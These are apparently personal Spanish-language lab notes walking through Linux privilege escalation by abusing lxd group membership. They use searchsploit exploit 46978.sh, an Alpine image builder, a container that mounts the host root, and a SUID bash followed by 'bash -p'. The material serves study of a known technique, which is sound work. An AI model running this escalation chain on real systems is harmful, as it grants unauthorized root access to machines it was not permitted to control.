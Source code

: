 Para agregar a algun usuario dentro de un grupo se puede hacer de la siguiente manera:
usermod -a -G adm ken
usermod -a -G docker ken

Para eliminar al usuario:
gpasswd -d ken docker

Vamos a instalar un entorno de pruebas con LXD
lxd es similar a docker

ejecutamos: `snap install lxd`

aregamos al grupo user

usermod -a -G lxd ken

buscamos en searchsploit lxd

vemos que no sale un lxd privilege escalation

buscamos mas info:

searchsploit -x linux/local/46978.sh

Esto nos sirve ya que esta automatizada

lo que haces 
te convieertes en ken
pero al hacer id ves que estas dentro del grupo lxd

entonces  nos traemos el exploit al directorio actual
`searchsploit -m linux/local/46978.sh `
y le cambiamo el nombre

Vemos que tenemos que bajarnos una imagen de alpine entonces la bajamos:

wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine

ahora hacemos ``bash build-alpine` (esto nos genra un comprimido)

En caso de que nos de error podemos clonarnos el repositorio de github para bajarnos directamente el comprimido

https://github.com/saghul/lxd-alpine-builder.git

Una vez descargado hacemos lo siguiente:

Este comprimido se comparte a la maquina victima

ahora si nos ejecutamos el ./lxdexploit esta configurado para ejecutarlo de la siguiente manera
[-f] Filename (.tar.gz alpine file)
        [-h] Show this help panel
Entomces:
	ejecutamos el siguiente comando (cargara el comprimido y ejcutara el script)
	./lxdexploit -f alpine-v3.13-x86_64-20210218_0139.tar.gz

Te saldra algo como esto:
![[Pasted image 20250421154834.png]]

hacemos whoami y estamos como root pero dentro del contenedor

nos vamos al directorio nmnt y encontramos otro llamado /root

Nos metemos y hacemos  ``ls`

y ahi ya encontramos los recursos de la maquina
nos metemos al directorio /bin/
dentro del contenedor hacemos 
chmod u+s  bash (le otorga privilegio suid a la bash del usuario )

Nos salimos del contenedor(en automatico se borra el contenedor)

Dentro del usuario noraml en este caso "ken" (que anteriormente no tenia privilegios)
hacemos bash -p y ya elevamos privilegio a root
(Esto se debe que en el contenedor tenia acceso a los recursos del sistema y se podian hacer modificaciones como otorgar privilegios suid, entonces se otorgo privilegio suid a la bash para que al salirnos y acceder de vuelta al usuario normal o estandar pudieramos elevar privilegio de la bash2)



